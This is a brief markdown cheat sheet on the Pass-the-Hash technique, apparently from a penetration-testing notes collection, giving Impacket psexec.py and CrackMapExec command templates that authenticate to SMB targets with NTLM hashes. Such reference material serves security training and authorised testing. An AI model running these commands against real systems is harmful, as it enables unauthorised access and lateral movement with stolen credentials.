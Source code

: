 
---

#### **3. `Pass-The-Hash.md`**
```markdown
# Pass-The-Hash (PtH)

## Concept
- Authenticate using NTLM hash (no plaintext password).

## Tools
- `psexec.py` (Impacket).
- `CrackMapExec`.

## Commands
```bash
# Impacket
psexec.py DOMAIN/user@TARGET_IP -hashes LMHASH:NTHASH

# CrackMapExec
crackmapexec smb TARGET_IP -u user -H NTHASH